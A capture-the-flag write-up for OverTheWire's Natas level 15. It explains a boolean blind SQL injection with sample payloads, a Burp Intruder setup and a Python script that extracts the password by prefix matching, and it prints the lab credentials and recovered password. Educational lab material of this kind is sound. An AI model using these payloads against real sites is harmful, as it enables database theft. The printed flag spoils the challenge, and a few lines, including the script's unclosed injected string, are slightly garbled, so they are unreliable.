




# Natas Level 15 Writeup (natas15) – OverTheWire

## Overview

This level focuses on exploiting a **blind SQL injection** vulnerability.        
The goal is to find the password for the next level.

## Observation

When we open the page, we see an input field:

> **"Please enter a username"**

The application only responds with:
- `This user exists.`  
- `This user doesn't exist.`  

There is also a link to view the source code:

```
index-source.html
```

## Finding the Password

### Using Browser & BurpSuite
1. Open the source code.
2. It shows the `PHP` logic used:
   ```php
   $query = "SELECT * FROM users WHERE username=\"".$_REQUEST["username"]."\"";
   if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
       echo "This user exists.";
   } else {
       echo "This user doesn't exist.";
   }
   ```
    The response is boolean-based (no password is shown).

3. Confirm SQL Injection:
    ```
    natas16" and 1=1#
    ```
    Response: `This user exists.`
    ```
    natas16" and 1=2#
    ```
    Response: `This user doesn't exist.`
4. Extract password character by character using condition checks using BurpSuite:
    BurpSuite Intruder is used to automate the extraction process.
    1. Intercept the request and send it to **Intruder**.
    2. Set payload position:
    ```
    username=natas16" AND password like binary "§a§%"#  
    ```
    3. Use character list payload:
    
    ```text
    abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789
    ```  
    4. Repeat by extending the prefix (`a`, `ab`, `abc`, ...)
    
    5. Continue until full password is extracted.
    
    At the End we got `o`. 

#### Proof


### Using Python

```python
import requests, string

target = 'http://natas15.natas.labs.overthewire.org'
char = string.ascii_letters + string.digits
session = requests.Session()
session.auth = ('natas15', 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx')
password = ''

while len(password) < 32:
    for c in char:
        # % Used to match any sequence
        query = f'natas16" AND password LIKE BINARY   \"{password + c}%'
        r = session.get(target, params={'username': query})
        if 'This user exists' in r.text:
            password += c
            print(f'Password Like {password}', end='\r')
            break
print(f'Password for natas16 is: {password}')
```

## Vulnerability

User input is directly used in an SQL query without sanitization, allowing blind SQL injection.

## Flag
`hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`